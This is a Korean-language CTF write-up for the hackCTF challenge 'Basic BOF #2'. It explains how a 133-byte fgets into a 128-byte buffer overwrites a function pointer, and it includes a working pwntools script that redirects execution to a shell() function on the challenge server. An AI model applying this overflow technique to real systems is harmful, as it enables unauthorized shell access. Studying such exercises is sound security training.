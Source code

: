 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #2"
date:   2020-02-09
---
```


hackCTF pwnable 두번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
***
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup; // sup 함수의 주소를 v5에 저장
  fgets(&s, 133, stdin); // stdin으로부터 133바이트를 입력 받아 s에 저장
  v5(); // v5가 가리키는 함수 실행
  return 0;
}
```
## ida - sup
***
```c
int sup()
{
  return puts(&s); // s에 저장된 문자열 출력
}
```

## ida - shell
***
```c
int shell()
{
  return system("/bin/dash"); // 쉘을 띄울 수 있다!
}
```

메모리 구조를 정리해보자.<br><br>

***

| ebp |          |
|:---:|:--------:|
| ... |          |
|  v5 | esp+0x8C |
| ... |          |
|  s  |  esp+0xC |
| ... |          |
| esp |   esp+0  |

***

<br>
목표 : shell 함수 실행 <br>
취약점 : fgets(&s, 133, stdin)<br><br>
∴ v5를 shell의 주소로 덮어 shell()을 실행시키자.


+) 쉘의 주소는 다음과 같다.  
![0201](https://drive.google.com/uc?id=18Rgv1QIq_0rxABl08a1KZjNBc3GLtHi4)


## exploit.py
***
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3001)

payload = "A"*(0x8C-0xC) + p32(0x0804849B)

p.sendline(payload)

p.interactive()
```
## 결과  
![0202](https://drive.google.com/uc?id=1GApVrN8IkoCUKXN559Ldluu8rjXOXgtH)
